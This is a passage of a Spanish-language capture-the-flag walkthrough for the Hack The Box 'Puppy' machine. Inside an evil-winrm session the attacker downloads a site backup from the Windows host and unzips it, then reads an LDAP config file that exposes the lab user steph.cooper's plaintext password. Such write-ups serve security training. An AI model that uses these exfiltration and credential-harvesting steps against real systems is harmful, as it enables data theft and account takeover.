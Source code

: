 ~~~ powershell

evil-winrm-py PS C:\Users\adam.silver\Documents> dir C:\Backups 

    Directory: C:\Backups

Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          3/8/2025   8:22 AM        4639546 site-backup-2024-12-30.zip
~~~

Aprovecharemos la funcionalidad para descargar archivos directamente en nuestra máquina con el comando  `download`

~~~ bash
evil-winrm-py PS C:\Users\adam.silver\Documents> download C:\Backups\site-backup-2024-12-30.zip .
~~~

Procedemos a descomprimir este archivo `.zip` en nuestra máquina atacante, el comprimido contiene `3` archvios

~~~ bash
unzip site-backup-2024-12-30.zip

ls
assets images index.html nms-auth-config.xml.bak
~~~

Si vemos el contenido del archivo `nms-auth-config.xml.bak`, veremos unas credenciales

~~~ bash
cat nms-auth-config.xml.bak

<?xml version="1.0" encoding="UTF-8"?>
<ldap-config>
    <server>
        <host>DC.PUPPY.HTB</host>
        <port>389</port>
        <base-dn>dc=PUPPY,dc=HTB</base-dn>
        <bind-dn>cn=steph.cooper,dc=puppy,dc=htb</bind-dn>
        <bind-password>ChefSteph2025!</bind-password>
    </server>
    <user-attributes>
        <attribute name="username" ldap-attribute="uid" />
        <attribute name="firstName" ldap-attribute="givenName" />
        <attribute name="lastName" ldap-attribute="sn" />
        <attribute name="email" ldap-attribute="mail" />
    </user-attributes>
    <group-attributes>
        <attribute name="groupName" ldap-attribute="cn" />
        <attribute name="groupMember" ldap-attribute="member" />
    </group-attributes>
    <search-filter>
        <filter>(&(objectClass=person)(uid=%s))</filter>
    </search-filter>
</ldap-config>
~~~
